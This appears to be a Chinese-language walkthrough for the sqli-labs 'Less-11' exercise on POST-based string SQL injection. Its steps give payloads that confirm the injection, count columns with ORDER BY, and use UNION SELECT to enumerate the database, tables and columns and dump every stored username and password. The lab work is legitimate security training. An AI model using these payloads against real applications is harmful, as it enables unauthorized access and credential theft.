







# Less - 11

---

# 通关教程

---

## 1、判断注入点

---

我们利用hackbar抓到POST包后，像前面的关卡一样先在admin的位置试试有没有SQL注入漏洞，发现当在Post data的位置输入

```html
uname=admin'&passwd=admin&submit=Submit
```

时，系统报错，证明有SQL注入漏洞，并且为字符型注入，由于hackbar插件无法post数据，这里使用的是burpsuite

​​

## 2、判断字段数

---

```html
uname=ad'+order+by+2#&passwd=admin&submit=Submit // 无报错
uname=ad'+order+by+3#&passwd=admin&submit=Submit // 报错
```

​​

判断字段数为2

---

## 3、确定回显位置

---

```html
uname=ad'+union+select+1,2#&passwd=admin&submit=Submit
```

​​

---

## 4、查看当前数据库及当前用户

---

```html
uname=ad'+union+select+user(),database()#&passwd=admin&submit=Submit
```

​​

---

## 5、查看security库下的所有表

---

```html
uname=ad'+union+select+1,(select+group_concat(table_name)+from+information_schema.tables+where+table_schema='security')#&passwd=admin&submit=Submit
```

​​

---

## 6、查看users表下的所有字段

---

```html
uname=ad'+union+select+1,(select+group_concat(column_name)+from+information_schema.columns+where+table_name='users')#&passwd=admin&submit=Submit
```

​​

---

## 7、查看username和password字段的值

---

```html
uname=ad'+union+select+1,(select+group_concat(username,password)+from+security.users)#&passwd=admin&submit=Submit
```

​​
